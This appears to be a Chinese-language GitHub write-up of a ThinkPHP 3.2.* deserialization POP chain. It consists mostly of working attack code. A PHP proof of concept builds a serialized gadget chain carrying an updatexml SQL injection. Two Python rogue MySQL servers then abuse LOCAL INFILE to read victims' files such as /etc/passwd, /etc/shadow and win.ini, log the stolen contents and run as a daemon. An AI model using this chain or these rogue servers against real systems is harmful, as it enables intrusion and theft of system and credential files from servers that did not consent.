

# ThinkPHP v3.2.* （SQL注入&文件读取）反序列化POP链

## POC

```
<?php
namespace Think\Db\Driver{
    use PDO;
    class Mysql{
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true    // 开启才能读取文件
        );
        protected $config = array(
            "debug"    => 1,
            "database" => "thinkphp3",
            "hostname" => "127.0.0.1",
            "hostport" => "3306",
            "charset"  => "utf8",
            "username" => "root",
            "password" => ""
        );
    }
}

namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;

        public function __construct(){
            $this->img = new Memcache();
        }
    }
}

namespace Think\Session\Driver{
    use Think\Model;
    class Memcache{
        protected $handle;

        public function __construct(){
            $this->handle = new Model();
        }
    }
}

namespace Think{
    use Think\Db\Driver\Mysql;
    class Model{
        protected $options   = array();
        protected $pk;
        protected $data = array();
        protected $db = null;

        public function __construct(){
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
            $this->data[$this->pk] = array(
                "table" => "mysql.user where 1=updatexml(1,user(),1)#",
                "where" => "1=1"
            );
        }
    }
}

namespace {
    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));
}
```

入口：/ThinkPHP/Library/Think/Image/Driver/Imagick.class.php


出口/ThinkPHP/Library/Think/Db/Driver.class.php



Poc所完成的功能是连接一个数据库，因此，我们可以利用的是mysql任意文件读漏洞

我们需要在自己的服务器上部署一个恶意的mysql服务

```
#!/usr/bin/python
#coding: utf8
import socket

# linux :
#filestring = "/etc/passwd"
# windows:
#filestring = "C:\Windows\system32\drivers\etc\hosts"
HOST = "0.0.0.0" # open for eeeeveryone! ^_^
PORT = 3306
BUFFER_SIZE = 1024

#1 Greeting
greeting = "\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"
#2 Accept all authentications
authok = "\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"

#3 Payload
#数据包长度
payloadlen = "\x0c"
padding = "\x00\x00"
payload = payloadlen + padding +  "\x01\xfb\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((HOST, PORT))
s.listen(1)

while True:
    conn, addr = s.accept()

    print 'Connection from:', addr
    conn.send(greeting)
    while True:
        data = conn.recv(BUFFER_SIZE)
        print " ".join("%02x" % ord(i) for i in data)
        conn.send(authok)
        data = conn.recv(BUFFER_SIZE)
        conn.send(payload)
        print "[*] Payload send!"
        data = conn.recv(BUFFER_SIZE)
        if not data: break
        print "Data received:", data
        break
    # Don't leave the connection open.
    conn.close()
```

https://github.com/Gifts/Rogue-MySql-Server ：

```
#!/usr/bin/env python
#coding: utf8


import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers


PORT = 3306

log = logging.getLogger(__name__)

log.setLevel(logging.DEBUG)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
#    r'c:\boot.ini',
    r'c:\windows\win.ini',
#    r'c:\windows\system32\drivers\etc\hosts',
#    '/etc/passwd',
#    '/etc/shadow',
)


#================================================
#=======No need to change after this lines=======
#================================================

__author__ = 'Gifts'

def daemonize():
    import os, warnings
    if os.name != 'posix':
        warnings.warn('Cant create daemon on non-posix system')
        return

    if os.fork(): os._exit(0)
    os.setsid()
    if os.fork(): os._exit(0)
    os.umask(0o022)
    null=os.open('/dev/null', os.O_RDWR)
    for i in xrange(3):
        try:
            os.dup2(null, i)
        except OSError as e:
            if e.errno != 9: raise
    os.close(null)


class LastPacket(Exception):
    pass


class OutOfOrder(Exception):
    pass


class mysql_packet(object):
    packet_header = struct.Struct('<Hbb')
    packet_header_long = struct.Struct('<Hbbb')
    def __init__(self, packet_type, payload):
        if isinstance(packet_type, mysql_packet):
            self.packet_num = packet_type.packet_num + 1
        else:
            self.packet_num = packet_type
        self.payload = payload

    def __str__(self):
        payload_len = len(self.payload)
        if payload_len < 65536:
            header = mysql_packet.packet_header.pack(payload_len, 0, self.packet_num)
        else:
            header = mysql_packet.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)

        result = "{0}{1}".format(
            header,
            self.payload
        )
        return result

    def __repr__(self):
        return repr(str(self))

    @staticmethod
    def parse(raw_data):
        packet_num = ord(raw_data[0])
        payload = raw_data[1:]

        return mysql_packet(packet_num, payload)


class http_request_handler(asynchat.async_chat):

    def __init__(self, addr):
        asynchat.async_chat.__init__(self, sock=addr[0])
        self.addr = addr[1]
        self.ibuffer = []
        self.set_terminator(3)
        self.state = 'LEN'
        self.sub_state = 'Auth'
        self.logined = False
        self.push(
            mysql_packet(
                0,
                "".join((
                    '\x0a',  # Protocol
                    '3.0.0-Evil_Mysql_Server' + '\0',  # Version
                    #'5.1.66-0+squeeze1' + '\0',
                    '\x36\x00\x00\x00',  # Thread ID
                    'evilsalt' + '\0',  # Salt
                    '\xdf\xf7',  # Capabilities
                    '\x08',  # Collation
                    '\x02\x00',  # Server Status
                    '\0' * 13,  # Unknown
                    'evil2222' + '\0',
                ))
            )
        )

        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
                        PACKET = mysql_packet(
                            packet,
                            '\xFB{0}'.format(filename)
                        )
                        self.set_terminator(3)
                        self.state = 'LEN'
                        self.sub_state = 'File'
                        self.push(PACKET)
                    elif packet.payload[0] == '\x1b':
                        log.info('SelectDB')
                        self.push(mysql_packet(
                            packet,
                            '\xfe\x00\x00\x02\x00'
                        ))
                        raise LastPacket()
                    elif packet.payload[0] in '\x02':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    elif packet.payload == '\x00\x01':
                        self.push(None)
                        self.close_when_done()
                    else:
                        raise ValueError()
                else:
                    if self.sub_state == 'File':
                        log.info('-- result')
                        log.info('Result: %r', data)

                        if len(data) == 1:
                            self.push(
                                mysql_packet(packet, '\0\0\0\x02\0\0\0')
                            )
                            raise LastPacket()
                        else:
                            self.set_terminator(3)
                            self.state = 'LEN'
                            self.order = packet.packet_num + 1

                    elif self.sub_state == 'Auth':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    else:
                        log.info('-- else')
                        raise ValueError('Unknown packet')
            except LastPacket:
                log.info('Last packet')
                self.state = 'LEN'
                self.sub_state = None
                self.order = 0
                self.set_terminator(3)
            except OutOfOrder:
                log.warning('Out of order')
                self.push(None)
                self.close_when_done()
        else:
            log.error('Unknown state')
            self.push('None')
            self.close_when_done()


class mysql_listener(asyncore.dispatcher):
    def __init__(self, sock=None):
        asyncore.dispatcher.__init__(self, sock)

        if not sock:
            self.create_socket(socket.AF_INET, socket.SOCK_STREAM)
            self.set_reuse_addr()
            try:
                self.bind(('', PORT))
            except socket.error:
                exit()

            self.listen(5)

    def handle_accept(self):
        pair = self.accept()

        if pair is not None:
            log.info('Conn from: %r', pair[1])
            tmp = http_request_handler(pair)


z = mysql_listener()
daemonize()
asyncore.loop()
```

